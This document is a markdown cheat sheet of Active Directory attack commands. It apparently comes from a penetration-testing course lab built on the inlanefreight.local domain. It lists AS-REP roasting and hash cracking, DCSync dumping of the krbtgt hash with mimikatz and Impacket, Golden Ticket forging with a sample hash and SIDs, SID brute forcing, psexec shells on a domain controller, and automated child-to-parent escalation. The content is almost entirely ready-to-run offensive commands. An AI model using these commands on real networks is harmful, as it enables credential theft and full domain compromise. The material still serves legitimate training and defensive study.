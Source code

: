 ## ASREPRoasting

| Command | Description |
|---------|-------------|
| `Get-DomainUser -PreauthNotRequired | select samaccountname,userprincipalname,useraccountcontrol | fl` | PowerView based tool used to search for the DONT_REQ_PREAUTH value across in user accounts in a target Windows domain. Performed from a Windows-based host. |
| `.\Rubeus.exe asreproast /user:mmorgan /nowrap /format:hashcat` | Uses Rubeus to perform an ASREP Roasting attack and formats the output for Hashcat. Performed from a Windows-based host. |
| `hashcat -m 18200 ilfreight_asrep /usr/share/wordlists/rockyou.txt` | Uses Hashcat to attempt to crack the captured hash using a wordlist (rockyou.txt). Performed from a Linux-based host. |
| `kerbrute userenum -d inlanefreight.local --dc 172.16.5.5 /opt/jsmith.txt` | Enumerates users in a target Windows domain and automatically retrieves the AS for any users found that don't require Kerberos pre-authentication. Performed from a Linux-based host. |

## Trust Relationships - Child > Parent Trusts

| Command | Description |
|---------|-------------|
| `Import-Module activedirectory` | Used to import the Active Directory module. Performed from a Windows-based host. |
| `Get-ADTrust -Filter *` | PowerShell cmdlet used to enumerate a target Windows domain's trust relationships. Performed from a Windows-based host. |
| `Get-DomainTrust` | PowerView tool used to enumerate a target Windows domain's trust relationships. Performed from a Windows-based host. |
| `Get-DomainTrustMapping` | PowerView tool used to perform a domain trust mapping from a Windows-based host. |
| `Get-DomainUser -Domain LOGISTICS.INLANEFREIGHT.LOCAL | select SamAccountName` | PowerView tool used to enumerate users in a target child domain from a Windows-based host. |
| `mimikatz # lsadump::dcsync /user:LOGISTICS\krbtgt` | Uses Mimikatz to obtain the KRBTGT account's NT Hash from a Windows-based host. |
| `Get-DomainSID` | PowerView tool used to get the SID for a target child domain from a Windows-based host. |
| `Get-DomainGroup -Domain INLANEFREIGHT.LOCAL -Identity "Enterprise Admins" | select distinguishedname,objectsid` | PowerView tool used to obtain the Enterprise Admins group's SID from a Windows-based host. |
| `ls \\academy-ea-dc01.inlanefreight.local\c$` | Used to attempt to list the contents of the C drive on a target Domain Controller. Performed from a Windows-based host. |
| `mimikatz # kerberos::golden /user:hacker /domain:LOGISTICS.INLANEFREIGHT.LOCAL /sid:S-1-5-21-2806153819-209893948-922872689 /krbtgt:9d765b482771505cbe97411065964d5f /sids:S-1-5-21-3842939050-3880317879-2865463114-519 /ptt` | Uses Mimikatz to create a Golden Ticket from a Windows-based host. |
| `.\Rubeus.exe golden /rc4:9d765b482771505cbe97411065964d5f /domain:LOGISTICS.INLANEFREIGHT.LOCAL /sid:S-1-5-21-2806153819-209893948-922872689 /sids:S-1-5-21-3842939050-3880317879-2865463114-519 /user:hacker /ptt` | Uses Rubeus to create a Golden Ticket from a Windows-based host. |
| `mimikatz # lsadump::dcsync /user:INLANEFREIGHT\lab_adm` | Uses Mimikatz to perform a DCSync attack from a Windows-based host. |
| `secretsdump.py logistics.inlanefreight.local/htb-student_adm@172.16.5.240 -just-dc-user LOGISTICS/krbtgt` | Impacket tool used to perform a DCSync attack from a Linux-based host. |
| `lookupsid.py logistics.inlanefreight.local/htb-student_adm@172.16.5.240` | Impacket tool used to perform a SID Brute forcing attack from a Linux-based host. |
| `lookupsid.py logistics.inlanefreight.local/htb-student_adm@172.16.5.240 | grep "Domain SID"` | Impacket tool used to retrieve the SID of a target Windows domain from a Linux-based host. |
| `lookupsid.py logistics.inlanefreight.local/htb-student_adm@172.16.5.5 | grep -B12 "Enterprise Admins"` | Impacket tool used to retrieve the SID of a target Windows domain and attach it to the Enterprise Admin group's RID from a Linux-based host. |
| `ticketer.py -nthash 9d765b482771505cbe97411065964d5f -domain LOGISTICS.INLANEFREIGHT.LOCAL -domain-sid S-1-5-21-2806153819-209893948-922872689 -extra-sid S-1-5-21-3842939050-3880317879-2865463114-519 hacker` | Impacket tool used to create a Golden Ticket from a Linux-based host. |
| `export KRB5CCNAME=hacker.ccache` | Used to set the KRB5CCNAME Environment Variable from a Linux-based host. |
| `psexec.py LOGISTICS.INLANEFREIGHT.LOCAL/hacker@academy-ea-dc01.inlanefreight.local -k -no-pass -target-ip 172.16.5.5` | Impacket tool used to establish a shell session with a target Domain Controller from a Linux-based host. |
| `raiseChild.py -target-exec 172.16.5.5 LOGISTICS.INLANEFREIGHT.LOCAL/htb-student_adm` | Impacket tool that automatically performs an attack that escalates from child to parent domain. |
